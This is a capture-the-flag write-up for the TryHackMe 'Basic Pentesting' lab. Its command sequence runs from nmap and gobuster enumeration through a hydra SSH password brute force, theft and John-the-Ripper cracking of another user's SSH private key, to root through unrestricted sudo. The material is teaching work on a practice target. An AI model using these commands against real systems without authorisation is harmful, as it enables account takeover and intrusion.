

# Basic Pentesting — TryHackMe

| Field      | Value              |
|------------|--------------------|
| Platform   | TryHackMe          |
| OS         | Linux              |
| Difficulty | Easy               |
| Tags       | gobuster, SMB, enum4linux, hydra SSH brute force, SSH key cracking, John the Ripper, sudo |

---

## 1. Reconnaissance

```bash
nmap -sV -sC -Pn -oN nmap_report.txt <IP>
```

Ports open:
- **22** — SSH (OpenSSH)
- **80** — HTTP (Apache)
- **139/445** — SMB (Samba)

---

## 2. Web Enumeration

```bash
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt
```



Found `/development/` — a non-standard directory. It contained `.txt` files with hints: notes about the server setup referencing usernames and security issues. Always read everything in directories like this — developers treat them as scratch space and frequently leave credentials or architecture notes.

---

## 3. SMB Enumeration

```bash
enum4linux -a <IP>
```

Users discovered: `jan`, `kay`

---

## 4. SSH Brute Force — jan

With the username `jan` confirmed, brute-forced SSH:

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<IP>
```

Password recovered for `jan`. Logged in via SSH.

---

## 5. Privilege Escalation — jan → kay → root

### Step 1 — Find kay's SSH private key

From jan's shell, browsed kay's home directory:

```bash
ls /home/kay/
```

Found `id_rsa` — kay's SSH private key. Copied it to Kali.

### Step 2 — Crack the passphrase with John

The private key was passphrase-protected. Converted it to a John-compatible hash and cracked it:

```bash
/usr/share/john/ssh2john.py id_rsa > hash_ssh.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash_ssh.txt
```

### Step 3 — SSH as kay

```bash
chmod 600 id_rsa
ssh -i id_rsa kay@<IP>
# Enter cracked passphrase when prompted
```

### Step 4 — kay → root

Checked sudo permissions:

```bash
sudo -l
```

`kay` had unrestricted sudo access. Escalated to root directly:

```bash
sudo su
```

---

## Key Takeaways

**`/development/` directories are goldmines.** Developers routinely use these as temporary note folders and forget them. Always enumerate and read everything found in non-standard web directories.

**Readable home directories expose private keys.** If you can read `/home/<user>/`, always check for `.ssh/id_rsa`. A passphrase-protected key is only as strong as the passphrase — weak ones fall to rockyou instantly.

**`ssh2john` + John is the standard SSH passphrase cracking workflow.** `ssh2john` extracts a crackable hash from the private key file. John then attacks it with a wordlist, just like any other hash.

**Unrestricted sudo = root, always.** `sudo -l` showing `(ALL) ALL` means `sudo su` or `sudo bash` gives an immediate root shell with no further exploitation needed.
